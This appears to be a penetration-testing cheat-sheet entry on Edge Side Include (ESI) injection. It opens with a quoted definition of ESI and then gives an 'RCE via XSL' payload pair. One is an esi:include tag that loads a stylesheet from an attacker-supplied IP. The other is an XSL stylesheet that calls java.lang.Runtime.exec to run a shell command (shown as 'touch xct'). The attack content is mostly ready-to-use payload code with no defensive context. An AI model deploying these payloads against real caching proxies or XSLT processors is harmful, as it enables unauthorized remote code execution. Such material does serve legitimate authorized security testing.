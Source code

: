 # ESI

"The ESI language is based on a small set of XML tags and is used in many popular HTTP surrogate solutions to tackle performance issues by enabling heavy caching of Web content. ESI tags are used to instruct a reverse-proxy \(or a caching server\) to fetch more information about a web page for which a template is already cached. This information may come from another server before serving it to the client. This allows fully cached pages to include dynamic content." \([https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)\)

### RCE via XSL

```markup
<esi:include src="http://<ip>/" stylesheet="http://<ip>/esi.xsl"></esi:include>
```

```markup
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[touch xct]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```



